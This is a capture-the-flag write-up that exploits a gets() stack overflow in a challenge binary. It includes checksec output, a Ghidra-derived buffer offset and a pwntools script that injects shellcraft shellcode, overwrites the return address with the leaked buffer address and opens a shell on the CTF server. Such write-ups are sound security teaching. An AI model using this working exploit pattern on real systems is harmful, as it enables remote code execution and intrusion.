

# Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled  
>PIE:      PIE enabled  
>RWX:      Has RWX segments  

A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!